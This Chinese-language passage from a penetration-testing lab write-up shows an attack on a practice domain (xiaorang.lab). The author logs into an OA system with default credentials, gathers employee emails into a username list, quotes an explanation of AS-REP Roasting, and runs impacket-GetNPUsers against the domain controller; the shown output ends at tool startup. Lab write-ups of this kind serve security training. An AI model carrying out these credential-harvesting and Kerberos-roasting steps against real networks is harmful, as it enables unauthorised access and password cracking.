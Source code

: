 默认密码admin/123456成功登入

![image-20250331124144053](../assets/image-20250331124144053-1748854959640-10.png)

这个oa系统没办法直接拿到shell

但是我们可以进行一些信息收集

在团队->同事页面可以收集到一堆邮箱

![image-20250331131208696](../assets/image-20250331131208696-1748854959640-11.png)

我们可以利用这堆邮箱来构造用户名字典

```
lixiuying@xiaorang.lab
lixiaoliang@xiaorang.lab
zhangyi@xiaorang.lab
jiaxiaoliang@xiaorang.lab
zhangli@xiaorang.lab
zhangwei@xiaorang.lab
liuqiang@xiaorang.lab
wangfang@xiaorang.lab
wangwei@xiaorang.lab
wanglihong@xiaorang.lab
huachunmei@xiaorang.lab
wanghao@xiaorang.lab
zhangxinyu@xiaorang.lab
huzhigang@xiaorang.lab
lihongxia@xiaorang.lab
wangyulan@xiaorang.lab
chenjianhua@xiaorang.lab
```

在后续进行爆破的时候可以使用

这里我们猜测机子未开启预身份验证，尝试使用AS-REP Roasting攻击

```
AS-REP Roasting是一种对用户账户进行离线爆破的攻击方式。但是该攻击方式使用上比较受限，因为其需要用户账户设置不要求Kerberos 预身份验证选项，而该选项默认是没有勾选的。Kerberos 预身份验证发生在 Kerberos 身份验证的第一阶段（AS_REQ&AS REP），它的主要作用是防止密码离线爆破。默认情况下，预身份验证是开启的，KDC 会记录密码错误次数，防止在线爆破。
当关闭了预身份验证后，攻击者可以使用指定用户向域控制器的 Kerberos 88 端口请求票据，此时域控不会进行任何验证就将 TGT 和该用户 Hash 加密的 Login Session Key 返回。因此，攻击者就可以对获取到的用户 Hash 加密的 Login Session Key 进行离线破解，如果字典够强大，则可能破解得到该指定用户的明文密码。
————————————————
                        
原文链接：https://blog.csdn.net/weixin_45954730/article/details/140647751
```

这里使用impacket-GetNPUsers工具，这个工具会尝试获得并列出不需要Kerberos域认证的用户

```
proxychains4 impacket-GetNPUsers -dc-ip 172.22.15.13 -usersfile username.txt xiaorang.lab/ 
```

结果

```
┌──(root㉿Xrntkk-Laptop)-[/home/xrntkk]
└─# proxychains4 impacket-GetNPUsers -dc-ip 172.22.15.13 -usersfile username.txt xiaorang.lab/
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

/usr/share/doc/python3-impacket/examples/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
```